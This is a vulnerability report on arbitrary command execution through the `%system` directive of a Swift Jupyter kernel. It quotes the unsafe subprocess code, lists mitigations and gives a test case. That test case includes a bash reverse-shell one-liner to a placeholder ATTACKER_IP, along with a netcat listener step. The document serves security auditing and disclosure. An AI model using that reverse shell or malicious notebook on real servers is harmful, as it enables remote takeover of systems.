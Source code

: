 * Vulnerability Name: Unsafe execution of system commands via `%system` directive
* Description:
    - A malicious Jupyter notebook can use the `%system` directive to execute arbitrary system commands on the server hosting the Jupyter kernel.
    - An attacker can craft a Swift notebook containing a cell with the `%system` directive followed by a malicious command.
    - When the user opens and runs this notebook, the `_process_system_command_line` function in `swift_kernel.py` executes the provided command using `subprocess.Popen` with `shell=True`.
    - This allows the attacker to bypass any sandboxing and execute commands with the privileges of the Jupyter kernel process.
* Impact:
    - **Critical**. Arbitrary command execution on the server.
    - An attacker can completely compromise the system hosting the Jupyter kernel. This could lead to data theft, installation of malware, or further attacks on internal networks.
* Vulnerability Rank: Critical
* Currently Implemented Mitigations:
    - None. The code directly executes the system command.
* Missing Mitigations:
    - **Input sanitization:** Sanitize or strictly validate the input to the `%system` directive to prevent command injection. However, even with sanitization, allowing arbitrary system commands is inherently risky.
    - **Restricting command execution:**  Remove or disable the `%system` directive entirely. If system commands are necessary, implement a safe and controlled way to execute a limited set of predefined commands with strict input validation.
    - **Sandboxing:** Implement a more robust sandboxing mechanism to limit the capabilities of the Swift kernel process and prevent it from executing arbitrary system commands or accessing sensitive resources.
* Preconditions:
    - The user must open and execute a malicious Swift notebook containing a cell with the `%system` directive.
    - The Jupyter kernel must be running on a server accessible to the attacker or the attacker can convince a local user to run the notebook.
* Source Code Analysis:
    - File: `/code/swift_kernel.py`
    - Function: `_process_system_command_line(self, line)`
    ```python
    def _process_system_command_line(self, line):
        system_match = re.match(r'^\s*%system (.*)$', line)
        if system_match is None:
            return line

        if hasattr(self, 'debugger'):
            raise PackageInstallException(
                    'System commands can only run in the first cell.')

        rest_of_line = system_match.group(1)
        process = subprocess.Popen(rest_of_line,
                            stdout=subprocess.PIPE,
                            stderr=subprocess.STDOUT,
                            shell=True) # Vulnerability: shell=True
        process.wait()
        command_result = process.stdout.read().decode('utf-8')
        self.send_response(self.iopub_socket, 'stream', {
            'name': 'stdout',
            'text': '%s' % command_result
        })
        return ''
    ```
    - The code extracts the command from the line using regex and directly passes it to `subprocess.Popen` with `shell=True`.
    - `shell=True` is dangerous because it allows shell injection vulnerabilities. An attacker can inject arbitrary shell commands by crafting input that is not properly sanitized.
    - The code also checks if `self.debugger` exists to limit `%system` to the first cell execution. This limitation does not mitigate the command injection vulnerability itself.
* Security Test Case:
    - Step 1: Create a new Swift Jupyter notebook.
    - Step 2: In the first cell, enter the following code:
    ```swift
    %system touch /tmp/pwned
    ```
    - Step 3: Execute the cell.
    - Step 4: On the server hosting the Jupyter kernel, check if the file `/tmp/pwned` has been created. If the file exists, the vulnerability is confirmed.

    - For a more impactful test, try a reverse shell:
    ```swift
    %system bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
    ```
    - Step 5: Set up a netcat listener on `ATTACKER_IP:ATTACKER_PORT`.
    - Step 6: Execute the cell in the notebook.
    - Step 7: If a shell connection is established back to the attacker's machine, arbitrary command execution is confirmed.